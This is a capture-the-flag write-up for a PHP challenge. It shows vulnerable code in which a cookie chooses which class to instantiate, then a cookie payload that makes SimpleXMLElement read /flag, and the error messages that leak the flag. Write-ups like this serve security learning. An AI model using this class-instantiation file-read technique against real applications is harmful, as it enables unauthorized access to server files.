 # blind
The challange was:   
![Challenge](https://i.imgur.com/SMDEc9x.png)

When you open the link it shows the php code of the page.  
```php
<?php  
	function __autoload($cls) {  
		include $cls;  
	}  
	  
	class Black {  
		public function __construct($string, $default, $keyword, $store) {  
			if ($string) ini_set("highlight.string", "#0d0d0d");  
			if ($default) ini_set("highlight.default", "#0d0d0d");  
			if ($keyword) ini_set("highlight.keyword", "#0d0d0d");  
			  
			if ($store) {  
				setcookie('theme', "Black-".$string."-".$default."-".$keyword, 0, '/');  
			}  
		}  
	}  
	  
	class Green {  
		public function __construct($string, $default, $keyword, $store) {  
			if ($string) ini_set("highlight.string", "#00fb00");  
			if ($default) ini_set("highlight.default", "#00fb00");  
			if ($keyword) ini_set("highlight.keyword", "#00fb00");  
			  
			if ($store) {  
				setcookie('theme', "Green-".$string."-".$default."-".$keyword, 0, '/');  
			}  
		}  
	}  
	  
	if ($_=@$_GET['theme']) {  
		if (in_array($_, ["Black", "Green"])) {  
			if (@class_exists($_)) {  
				($string = @$_GET['string']) || $string = false;  
				($default = @$_GET['default']) || $default = false;  
				($keyword = @$_GET['keyword']) || $keyword = false;  
	  
				new $_($string, $default, $keyword, @$_GET['store']);  
			}  
		}  
	} else if ($_=@$_COOKIE['theme']) {  
		$args = explode('-', $_);  
		if (class_exists($args[0])) {  
			new $args[0]($args[1], $args[2], $args[3], '');  
		}  
	} else if ($_=@$_GET['info']) {  
		phpinfo();  
	}  
	  
	highlight_file(__FILE__);
```
Going directly to the point, we'll use the cookie 'theme' to use a class to somehow echo out the flag for us.  
And we can use the php_info to see whats enable.  

Going through countless classes, looking for one that have at least 4 string args i fond the SimpleXMLElement.  
Changing the cookie to `SimpleXMLElement-/flag-0-TRUE` we get the flag out in the error message.  
```
**Warning**: SimpleXMLElement::__construct(): /flag:1: parser error : Start tag expected, '<' not found in **/var/www/html/index.php** on line **43**  
  
**Warning**: SimpleXMLElement::__construct(): 35c3_even_a_blind_squirrel_finds_a_nut_now_and_then in **/var/www/html/index.php** on line **43**  
  
**Warning**: SimpleXMLElement::__construct(): ^ in **/var/www/html/index.php** on line **43**  
  
**Fatal error**: Uncaught Exception: String could not be parsed as XML in /var/www/html/index.php:43 Stack trace: #0 /var/www/html/index.php(43): SimpleXMLElement->__construct('/flag', '0', 'TRUE', '') #1 {main} thrown in **/var/www/html/index.php** on line **43**
```

Flag is `35c3_even_a_blind_squirrel_finds_a_nut_now_and_then`  